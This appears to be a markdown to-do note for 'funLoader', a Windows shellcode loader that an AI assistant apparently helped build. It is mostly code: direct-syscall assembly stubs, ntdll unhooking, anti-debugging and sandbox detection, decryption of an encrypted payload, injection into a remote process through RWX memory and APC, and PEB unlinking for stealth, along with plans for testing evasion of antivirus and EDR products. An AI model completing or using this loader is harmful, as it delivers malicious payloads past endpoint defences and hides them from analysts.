 # Remaining Work for funLoader Project Success

This document outlines the critical steps remaining to make the `funLoader` project fully functional with all the intended features. These steps were largely uncompleted due to tooling issues that prevented reliable file modifications (`load.cpp`, `syscalls.asm`) by the AI assistant.

## 1. Correct Syscall Implementation

The SysWhispers2-like mechanism needs to be extended for new NTAPI functions.

**File: `funLoader/syscalls.asm`**

The following assembly stubs **must** be correctly added. Ensure the hashes match those generated by `SW2_HashSyscall` from `sysopen.c` or use known good public values if re-generating is an issue.

*   **NtProtectVirtualMemory**:
    *   Required by: `Memory::RepairNtdll()`
    *   Example SW2 Hash: `0x858BCB9B` (publicly known)
    ```assembly
    NtProtectVirtualMemory PROC
        mov currentHash, 0858BCB9Bh    ; NtProtectVirtualMemory SW2 Hash
        call WhisperMain
    NtProtectVirtualMemory ENDP
    ```

*   **NtSetInformationThread**:
    *   Required by: `AntiDebug::HideFromDbg()`
    *   Example SW2 Hash: `0x73BFB905` (Jules' calculation, verify if possible)
    ```assembly
    NtSetInformationThread PROC
        mov currentHash, 073BFB905h    ; NtSetInformationThread SW2 Hash
        call WhisperMain
    NtSetInformationThread ENDP
    ```

*   **NtFreeVirtualMemory**:
    *   Required by: Error path in `Memory::RandomAlloc()`
    *   Example SW2 Hash: `0x0DADC89F` (publicly known)
    ```assembly
    NtFreeVirtualMemory PROC
        mov currentHash, 00DADC89Fh    ; NtFreeVirtualMemory SW2 Hash
        call WhisperMain
    NtFreeVirtualMemory ENDP
    ```

*   **(Optional - for conceptual features like full Process Hollowing / Self-Unmapping)**
    *   `NtUnmapViewOfSection` (Example Hash: `0x22A8D39F`)
    *   `NtGetContextThread` (Example Hash: `0x4905345D`)
    *   `NtSetContextThread` (Example Hash: `0x8A63FAB7`)
    *   `NtResumeThread` (Example Hash: `0xBE078826`)

**File: `funLoader/sysopen.h`**
*   This file *was* successfully updated by the AI to include the C prototypes for `NtProtectVirtualMemory`, `NtSetInformationThread`, and `NtFreeVirtualMemory`. Verify its contents.

## 2. Integrate Modules into `load.cpp`

The main logic in `funLoader/load.cpp` needs to be updated to call functions from the newly created modules.

**Key Changes Required in `funLoader/load.cpp`:**

*   **Includes**: Ensure these are present at the top:
    ```c++
    #include "ApiResolver.h"
    #include "Crypto.h"
    #include "Memory.h"
    #include "AntiDebug.h"
    #include "Injection.h"
    #include "Stealth.h"
    ```

*   **Global Definitions**:
    *   `const DWORD ENCRYPTION_KEY = 0xDEADBEEF;` (or chosen key)
    *   The `payload` array should be `BYTE payload[] = "..."` and contain shellcode pre-encrypted with `Crypto::JITEncrypt` using the `ENCRYPTION_KEY`.

*   **`main()` function modifications**:
    ```c++
    int main(int argc, char* argv[]) {
        if (!ApiResolver::Initialize()) {
            return 1;
        }

        if (!Memory::RepairNtdll()) {
            // Optional: decide if this is a fatal error
        }

        if (!AntiDebug::HideFromDbg()) {
            // Optional: decide if this is a fatal error
        }

        if (antidbg() == 44) { // antidbg now incorporates more checks
            // Optional: Unlink self if funLoader is to hide after payload runs
            // HMODULE hSelf = GetModuleHandleW(NULL);
            // if(hSelf) Stealth::UnlinkFromPEB(hSelf);
            return 0;
        } else {
            return 1;
        }
    }
    ```

*   **`antidbg()` function modifications**:
    ```c++
    int antidbg() {
        // ... existing RAM and Disk size checks ...
        // if (RAM_MB < 4096 || diskSizeGB < 100) return -1;

        if (AntiDebug::PerformHWChecks()) {
            return -1; // Sandbox/VM detected
        }

        if (remInj() == 1) { // Call modified remInj
            return 44;
        }
        return -1; // Injection failed
    }
    ```

*   **`remInj()` function modifications**:
    ```c++
    int remInj() {
        // ... (process finding/creation logic as before) ...
        // if (!processHandle) return 0;

        NTSTATUS status;
        SIZE_T shellcodeSize = sizeof(payload) - 1;
        PVOID remoteShellcodeAddress = NULL; // Changed from remoteBuf to be more descriptive

        // 1. Allocate memory
        status = Memory::RandomAlloc(processHandle, shellcodeSize, &remoteShellcodeAddress, NULL, PAGE_EXECUTE_READWRITE);
        if (!NT_SUCCESS(status) || !remoteShellcodeAddress) {
            NtClose(processHandle);
            return 0;
        }

        // 2. Decrypt payload
        Crypto::JITDecrypt(payload, shellcodeSize, ENCRYPTION_KEY);

        // 3. Write payload
        SIZE_T bytesWritten = 0;
        status = NtWriteVirtualMemory(processHandle, remoteShellcodeAddress, payload, shellcodeSize, &bytesWritten);
        if (!NT_SUCCESS(status) || bytesWritten != shellcodeSize) {
            // Proper cleanup of allocated memory in remote process needed if RandomAlloc returned reserved base
            if(remoteShellcodeAddress) NtUnmapViewOfSection(processHandle, remoteShellcodeAddress); // Simplified cleanup
            NtClose(processHandle);
            return 0;
        }

        // 4. Inject via APC
        if (!Injection::InjectViaAPC(processHandle, remoteShellcodeAddress)) {
            // Fallback or error
            NtClose(processHandle);
            return 0;
        }

        NtClose(processHandle);
        return 1; // Success
    }
    ```

## 3. Update Visual Studio Project File

**File: `funLoader/funLoader.vcxproj`**

Manually edit this XML file (or use Visual Studio IDE) to add the new `.cpp` source files to the compilation process:
*   `ApiResolver.cpp`
*   `Crypto.cpp`
*   `Memory.cpp`
*   `AntiDebug.cpp`
*   `Injection.cpp`
*   `Stealth.cpp`

They should be added within an `<ItemGroup>` similar to how `load.cpp`, `findPID.cpp`, and `sysopen.c` are listed. Example:
```xml
<ItemGroup>
  <ClCompile Include="load.cpp" />
  <ClCompile Include="findPID.cpp" />
  <ClCompile Include="sysopen.c" />
  <ClCompile Include="ApiResolver.cpp" />
  <ClCompile Include="Crypto.cpp" />
  <ClCompile Include="Memory.cpp" />
  <ClCompile Include="AntiDebug.cpp" />
  <ClCompile Include="Injection.cpp" />
  <ClCompile Include="Stealth.cpp" />
  <!-- any other .cpp files -->
</ItemGroup>
```
Ensure `syscalls.asm` is also correctly configured as a MASM build item.

## 4. Build and Test Thoroughly

*   Use the `build_funloader.py` script or Visual Studio to compile the project (Release x64).
*   **Unit Testing**: Test individual modules where possible (e.g., `Crypto` functions, `ApiResolver` hashing).
*   **Integration Testing**:
    *   Verify each new feature behaves as expected.
    *   Test `RepairNtdll` against a known hooked function (requires a controlled setup).
    *   Test `HideFromDbg` by attaching a debugger.
    *   Test sandbox detections (`PerformHWChecks`, original `antidbg` checks) in various VM environments.
    *   Test `RandomAlloc` by inspecting memory layouts.
    *   Test `InjectViaAPC` with a simple test shellcode (e.g., pop calc).
    *   Test `UnlinkFromPEB` using process analysis tools.
*   **Stability Testing**: Run the loader multiple times to check for crashes or unexpected behavior.
*   **Evasion Testing**: (Use responsibly in controlled lab environments) Test against AV/EDR solutions.

Once these steps are completed, the `funLoader` project should be fully functional and incorporate all the planned advanced features.
